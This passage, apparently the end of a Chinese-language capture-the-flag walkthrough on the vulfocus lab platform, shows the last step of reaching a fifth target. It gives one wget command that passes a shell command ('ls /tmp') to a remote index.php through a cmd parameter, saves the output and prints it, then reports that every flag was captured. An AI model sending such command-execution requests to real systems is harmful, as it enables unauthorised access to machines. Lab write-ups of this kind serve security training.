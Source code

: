 ```shell
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result ## 保存到/tmp/result中并查看
```
![](./images/发现第五个靶标.png)
* 提交到vulfocus中即可
![](./images/所有的靶标全部拿到.png)

**这样我们就拿到了所有的flag**

